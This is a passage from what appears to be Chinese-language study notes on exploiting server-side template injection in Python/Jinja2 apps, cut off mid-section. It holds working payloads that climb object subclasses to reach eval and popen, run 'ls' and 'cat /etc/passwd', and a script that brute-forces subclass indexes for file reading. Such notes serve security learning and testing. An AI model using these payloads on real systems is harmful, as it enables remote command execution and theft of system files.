 ```
name={{"".__class__.__base__.__subclasses__()[117].__init__}}检测是否重载，未出现wrapper字眼，说明已经重载
```

![image-20240407094000942](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240407094000942.png)

```
name={{"".__class__.__base__.__subclasses__()[117].__init__.__globals__}}查看有哪些全局变量，有哪些可以使用的方法函数等
```

```py
name={{"".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
__builtins__提供对Python的所有“内置”标识符的直接访问
eval()计算字符串表达式的值
popen()执行一个shell以运行命令来开启一个进程
或者
name={{"".__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}}
```

## SSTI常用注入模块

* 文件读取

  ```py
  查找子类_frozen_importlib_external.FileLoader
  <class '_frozen_importlib_external.FileLoader'>
  ```

  ```py
  Python脚本
  import requests
  url = input('请输入URL链接：')
  for i in range(500):
      data = {"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
      try:
          response = requests.post(url,data=data)
          # print(response.text)
          if response.status_code == 200:
              if '_frozen_importlib_external.FileLoader' in response.text:
                  print(i)
      except:
          pass
  ```

  FileLoader的利用：
